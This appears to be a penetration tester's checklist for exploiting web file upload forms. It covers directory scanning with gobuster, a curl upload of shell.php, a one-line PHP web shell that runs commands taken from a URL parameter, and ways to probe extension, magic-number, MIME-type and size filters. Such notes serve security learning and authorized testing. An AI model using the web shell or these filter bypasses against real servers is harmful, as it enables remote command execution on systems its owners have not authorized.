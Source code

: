 # Upload Exploitation Procedure
Take the following steps to begin exploiting file uploads.

## 1. Scan the application
This can be done by creating valid user accounts or by using `gobuster`

- Framework / Platform
- Server (determines payload)
- 3rd party scripts / plugins
- Location of file upload form
- Client side scripts may hint towards backend filters

```sh
gobuster dir -u 10.10.10.10/content -w wordlist -x php,jpg
```

## 2. Upload a valid file
- Where can the uploaded image be accessed? 
```sh
curl -i X POST -F "fieldname=@shell.php" 10.10.10.10
```

## 3. Attempt a malicious payload
A simple PHP payload saved as shell.php. This should not work at all, but worth a try.

```sh
<?=system($_GET['cmd']);?>
```

## 4. Invalid extensions
Try a completely invalid extension like `image.invalid`. 

| Upload Status | Extension Filter |
| ------------- | ------ |
| Success | Blacklist |
| Fail | Whitelist |

## 5. Magic numbers
Take the valid file and change the magic numbers to a file you would expect to be blocked. If the upload fails then you know they are filtering by magic numbers.

## 6. MIME Type
Take the valid file and change the MIME type to a file you would expect to be blocked. This can be done using burp suite or by sending the file directly to the endpoint.

```php
<?php
header('Content-Type: application/pdf');
```
## 7. File length
Upload progressively bigger files until you hit the filter. Craft a payload within those limits.

